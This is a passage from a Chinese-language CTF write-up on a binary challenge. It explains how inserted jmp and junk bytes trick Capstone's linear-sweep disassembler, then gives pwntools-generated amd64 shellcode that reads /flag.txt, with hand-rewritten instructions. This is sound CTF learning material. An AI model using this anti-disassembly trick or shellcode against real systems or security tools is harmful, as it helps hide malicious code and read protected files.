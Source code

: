## Binary

Binary 不太会，只写了两道题。

### 简单题

[Capstone 反汇编器](http://www.capstone-engine.org/skipdata.html)使用线性扫描反汇编算法。可以在每条汇编指令之间插入干扰数据，来欺骗反汇编器。将指令长度控制在 4 字节，然后在每条指令前插入：

```asm
jmp   0x1
.byte 0xe9
// 原有指令
```

则程序的行为不变，而 `0xe9` 及之后的 4 个字节将在反编译时被误当作另一条 `jmp` 指令。从而反汇编器只报告了 `jmp` 这一种指令。

用 pwntools 生成读取 `/flag.txt` 的汇编代码：

```python
from pwn import *

print(shellcraft.amd64.linux.cat("/flag.txt"))
```

结尾补上 `ret` 指令，得到：

```asm
/* push b'/flag.txt\x00' */
push 0x74
mov rax, 0x78742e67616c662f
push rax
/* call open('rsp', 'O_RDONLY', 'rdx') */
push SYS_open /* 2 */
pop rax
mov rdi, rsp
xor esi, esi /* O_RDONLY */
syscall
/* call sendfile(1, 'rax', 0, 0x7fffffff) */
mov r10d, 0x7fffffff
mov rsi, rax
push SYS_sendfile /* 0x28 */
pop rax
push 1
pop rdi
cdq /* rdx=0 */
syscall
ret
```

其中有两处 `mov` 指令编码长度超过了 4 字节，进行手动改写。如 `mov r10d, 0x7fffffff` 改写为：

```asm
xor r10d, r10d
add r10d, 1
shl r10d, 31
sub r10d, 1
```
